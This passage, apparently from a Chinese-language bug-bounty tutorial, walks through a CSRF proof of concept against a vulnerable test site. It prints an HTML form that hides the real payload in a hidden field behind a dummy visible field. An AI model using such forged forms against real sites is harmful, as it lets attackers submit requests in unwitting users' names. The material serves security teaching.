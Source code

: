 严格来说，这个 CSRF PoC 完成了我们需要的功能：它展示了我们可以伪造来自自己源的表单请求。但为了让它稍微黑帽一点（并向赏金计划展示一下该漏洞可能被如何利用），我们来添加一些隐藏字段的诡计。

这是我们的代码片段的样子，它将可见表单字段更改为虚拟值，并创建一个包含实际有效载荷的第二个隐藏字段：

```
<html>
 <form action="http://webscantest.com/csrf/csrfpost.php" enctype="application/x-www-form-urlencoded" method="POST">
  <label>
   color
  </label>
  <input name="dummy-property" type="text" value=""/>
  <input name="property" type="hidden" value="Peasoup">
  <input type="submit" value="http://webscantest.com/csrf/csrfpost.php"/>
 </form>
</html>
```

你可以看到恶意部分——我们正在填充 web 应用实际会消费的属性——我们提交了 Peasoup 作为用户的最爱颜色。我们的堕落深度无可限量。

假装成一个无助的用户，当我们在浏览器中打开代码片段时，我们不会看到任何明显的警告（表面上看）。但如果我们打开 `dev` 工具并开始检查隐藏字段元素，那将是另一个故事：

![](img/cddb7a90-63f4-4858-8c9a-28ab9b88fe00.png)

让我们继续提交表单，使用我们真正最喜欢的颜色：视觉上美丽且科学上有趣的青色。PoC 会返回什么呢？请看以下内容：
